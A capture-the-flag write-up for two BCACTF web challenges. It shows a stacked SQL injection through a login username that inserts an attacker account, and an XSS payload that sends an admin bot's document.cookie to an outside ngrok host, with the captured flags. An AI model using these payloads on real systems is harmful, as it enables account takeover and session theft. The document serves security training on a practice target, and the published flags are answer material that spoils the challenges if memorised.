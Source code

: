 # Bloodthirsty Breeze

In this challenge the source is given and if we take a close look at those queries we can see that this query is not actually propertly sanitized :

```sql
SELECT * FROM users WHERE username = ? AND password = '${hashedPassword}';
```

But as we can see `hashedPassword` is not exploitable due to the fact that it's impossible to find a useful hash for the injection :

```js
const hashedPassword = (() => {
    const hash = createHash('md5');
    hash.update(password);
    return hash.digest().toString('base64');
})();
```

If we check other queries we find this :

```sql
INSERT INTO failed_logins VALUES ('${username}', '${hashedPassword}');
```

Oh... This is not sanitized and we can inject in the username parameter :). But let's see how we can do this, first we can check how the database was created :

```js
const newDatabase = async (): Promise<string> => {
    let id: string;
    do {
        id = randomBytes(32).toString('base64');
    } while (databases.has(id));

    const db = new Database(`:memory:`);

    await Promise.all([
        new Promise(
            (res, rej) => db.exec(
                "CREATE TABLE users (username TEXT, password TEXT);",
                (err) => err ? rej(err) : res(undefined)
            )
        ),
        new Promise(
            (res, rej) => db.exec(
                "CREATE TABLE failed_logins (username TEXT, password TEXT);",
                (err) => err ? rej(err) : res(undefined)
            )
        ),
    ]);
```

Two tables was created, we can append a second query and insert into the `users` table data. In `index.ts` we can see that the flag is in `/api/menu`:

```js
server.get("/api/menu", cookieParser(), async (req, res) => {
    try {
        if (!databases.has(req.cookies.id)) res.cookie("id", await newDatabase(), {
            expires: new Date(new Date().getTime() + idTimeoutMillis),
        });

        if (!req.cookies.auth) {
            res.status(401);
            res.send(
                'The Bloodthirsty Breeze is interested in devouring your user data. Therefore, The Bloodthirsty Breeze requires that all visitors log in to view the menu, 
to maximize data collection efficiency.');
            return;
        }

        const authToken = req.cookies.auth;
        if (authTokens.has(authToken)) {
            const randIndex = Math.floor(Math.random() * menu.length);
            const result = menu.map((item, i) => ({ ...item, description: i === randIndex ? flag : item.description }));
            res.json(result);
        } else {
            res.status(401);
            res.send("Hacking The Bloodthirsty Breeze isn't a breeze, you know. Try harder.");
        }
    } catch (e) {
        reportError(res, e);
    }
});
```

The flag is shown here but we must be authenticated, but we can't register our user because the site is under construction... Oh wait, sure we can't? As we have seen we can 
probably perform queries to the database and we could register our user. But firts we have to see again how the hash is saved : 

```js
const hashedPassword = (() => {
    const hash = createHash('md5');
    hash.update(password);
    return hash.digest().toString('base64');
})();
```

The password first is hashed to MD5 and then base64 encoded, let's try to build our payload :) :

```sql
username','foo');INSERT INTO users VALUES ('whoami', 'GwZ5vnKtl2rV1JGtV6XuwA=='); -- 
```

note : I used the same function to get the `hashedPassword` :

```js
import { createHash } from "crypto";

const hashedPassword = (() => {
    const hash = createHash('md5');
    hash.update('whoami');
    return hash.digest().toString('base64');
})();
console.log(hashedPassword);
```

Let's try to login with the payload and then login again using `whoami:whoami` : 

```json
{"name":"Crypto-Locker","description":"bcactf{said_forbidden_word_y3ysyGn2R0UwuoceJ5uyMg}","price":"1 
BTC","imageURL":"https://images.pexels.com/photos/735911/pexels-photo-735911.jpeg?auto=compress&cs=tinysrgb&w=1260&h=750&dpr=2"}
```

> bcactf{said_forbidden_word_y3ysyGn2R0UwuoceJ5uyMg}

# Query Service

In this challenge we can query the database, after few tries we realize that it is SQLite : 

`SELECT name FROM sqlite_master`

```
name
notes
```

`SELECT * FROM notes`
```
note
submit link to admin bot at http://webp.bcactf.com:49155/
the flag is in the bot's "flag" cookie
```

Oh this is an XSS, we can send the query link to the admin, we can call an alert using `SELECT '<img src=x onerror=alert(1)>'` :

![image](https://user-images.githubusercontent.com/76447395/173060899-e90cfc93-c4a0-4369-8ca6-e2a78e2d55bf.png)

Nice, works! Let's try to steal the admin's cookie :

`SELECT '<img src=x onerror=this.src="https://[...].ngrok.io/?"+document.cookie>'`

> http://webp.bcactf.com:49156/?query=SELECT%20%27%3Cimg%20src=x%20onerror=this.src=%22https://8401-88-22-87-143.ngrok.io/?%22+document.cookie%3E%27

Now just check our ngrok : 

```
 [404]: GET /?flag=bcactf{SUBM1TT3D_QUE5TI0NABL3_L1NK} - No such file or directory
```

> bcactf{SUBM1TT3D_QUE5TI0NABL3_L1NK}
